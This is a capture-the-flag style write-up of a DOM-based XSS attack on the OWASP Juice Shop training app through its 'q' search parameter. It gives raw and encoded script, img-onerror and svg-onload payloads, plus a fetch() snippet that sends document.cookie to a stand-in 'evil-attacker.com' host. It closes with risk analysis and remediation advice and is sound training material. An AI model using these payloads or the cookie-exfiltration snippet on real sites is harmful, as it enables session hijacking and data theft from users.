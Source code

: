 Method 2 – URL Parameter Injection (DOM XSS) with deeper insight into methodology, payload anatomy, browser behavior, validation, and exploit impact:

markdown
Copy
Edit
# 🧠 Method 3 – URL Parameter Injection (DOM-Based Cross-Site Scripting)

This method leverages a reflected, unsanitized query parameter within the URL fragment to achieve DOM-based XSS in the OWASP Juice Shop application. Specifically, the application reads the `q` parameter from the URL and directly injects it into the DOM using an unsafe sink, such as `innerHTML`, without applying any context-aware sanitization. This makes it possible for an attacker to inject and execute arbitrary JavaScript in the victim’s browser — leading to client-side code execution, session hijacking, or cookie theft.

---

## 🔎 Attack Vector: `q` Parameter in URL Fragment

### Target URL Format:
```bash
http://localhost:3000/#/search?q=test
Observation:
When the q parameter is modified, its content is directly reflected into the page. This was verified via browser DevTools by searching for test in the Elements tab. The value is inserted directly into the HTML, exposing a clear DOM sink vulnerable to XSS.

Vulnerable Sink Identified:
innerHTML → No encoding or sanitization

Possibly rendered inside an Angular/JS template block

💣 Payload Arsenal: XSS Through Fragment Injection
Raw Payloads:
bash
Copy
Edit
http://localhost:3000/#/search?q=<script>alert(1)</script>
http://localhost:3000/#/search?q="><img src=x onerror=alert(1)>
http://localhost:3000/#/search?q="><svg/onload=alert(1)>
Encoded Payloads (URL-safe):
bash
Copy
Edit
http://localhost:3000/#/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E
http://localhost:3000/#/search?q=%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E
🧬 Payload Anatomy & Technique
Context Manipulation: Breaks out of the current DOM structure using " >

Injection Point: Directly inside an unsanitized innerHTML or text binding

Execution Trigger: <script>, onload, or onerror triggers JS execution

No Backend Interaction: Entire attack is client-side, bypassing server-side filtering

⚙️ Step-by-Step Execution Flow
Attacker crafts a malicious URL with the payload injected into the q parameter.

Victim visits the link or clicks on a phishing/social-engineered lure.

Juice Shop processes the fragment (/#/search?q=...) in the browser.

Client-side code extracts q, inserts it into the DOM via innerHTML.

Malicious JS executes in the browser’s context (e.g., alert(1) or cookie theft).

The internal Juice Shop validator detects the DOM manipulation and marks the Bonus Payload challenge as solved.

✅ Indicators of Successful Exploitation
Browser Alert Popup: Immediate execution of alert(1) on page load.

DOM Reflection: Verified that payload is inserted directly into HTML.

Challenge Completion: "Bonus Payload Challenge" marked as solved on the Scoreboard.

Console Output: Optionally, document.location.href, document.cookie available via DevTools.

🔬 Optional: Enhanced Testing & Proof of Concept
Data Exfiltration Simulation:
html
Copy
Edit
<script>
  fetch('http://evil-attacker.com/log?cookie=' + document.cookie);
</script>
⚠️ Use only in isolated environments. This demonstrates real-world data exfiltration but must not be executed in public or shared networks.

📸 Evidence Collection
Screenshot captured with alert box and scoreboard visible.

Naming convention used: DOM-XSS-URL-Param-Payload.png

Screenshot Steps:
Trigger the payload (alert should appear).

Open Score Board (http://localhost:3000/#/score-board).

Capture both the alert and solved challenge banner.

Save screenshot to evidence folder.

🧠 Risk Analysis
Vector	Description
Vulnerability	DOM-Based XSS via URL Fragment
Impact	Arbitrary JS Execution in Victim’s Browser
CVSS Score	6.1 (Medium) – can escalate based on context
Exploitable By	Any user clicking a crafted URL
Consequences	Session Hijacking, Data Theft, CSRF Bypass, Defacement

🔐 Remediation Recommendations
Sanitize all reflected values before DOM insertion.

Use secure methods like textContent instead of innerHTML.

Implement client-side sanitization with libraries like DOMPurify.

Deploy strong Content Security Policy (CSP) headers to restrict script execution.

📁 Folder Structure
mathematica
Copy
Edit
OWASP-Juice-Shop-Bonus-Payload/
└── Method-2-URL-Param-Injection/
    ├── Read-Me-URL-Parameter.md
    ├── To-Do-URL-Parameter.md
    ├── payload.txt
    ├── DOM-XSS-URL-Param-Payload.png
🧾 GitOps & Version Control
bash
Copy
Edit
cd ~/juice-shop/OWASP-Juice-Shop-Bonus-Payload/Method-2-URL-Param-Injection

# Stage your changes
git add .

# Commit with detailed message
git commit -m "🔐 DOM-Based XSS via URL fragment injection – payloads, PoC, screenshot added"

# Push to remote
git push origin main
✅ Summary: What We Achieved
 Discovered a vulnerable query parameter

 Verified DOM reflection and lack of sanitization

 Crafted multiple working DOM-based XSS payloads

 Triggered client-side script execution via fragment

 Captured proof of execution and scoreboard result

 Structured and versioned exploit documentation

⚔️ Client-side vulnerabilities are just as dangerous as server-side — and often more subtle. DOM XSS thrives on overlooked frontend logic. Hunt it hard.
